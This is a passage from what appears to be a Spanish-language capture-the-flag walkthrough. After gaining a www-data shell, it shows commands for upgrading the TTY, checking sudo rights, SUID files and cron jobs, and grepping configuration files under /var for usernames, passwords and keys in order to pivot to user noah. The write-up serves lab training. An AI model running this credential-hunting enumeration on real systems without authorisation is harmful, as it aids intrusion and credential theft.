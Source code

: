 Ya esta

```bash
whoami
#Output

www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
ls -l
cd /home
ls -l
cd noah/
cat user.txt
```

Permission denied. Nos tenemos que pasar al usuario Noah

### User Pivoting al usuario noah {-}

#### Analizamos el systema {-}

```bash
id
sudo -l
cd /
find \-perm -4000 2>/dev/null
cat /etc/crontab
ls -l /var/spool/cron
```

No vemos nada. Tendremos que pasar por el sistema web

```bash
cd /var
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep "config"
find \-type f 2>/dev/null | grep "config" | xargs grep "password" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v "debconf"
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v -E "debconf|keyboard"
```
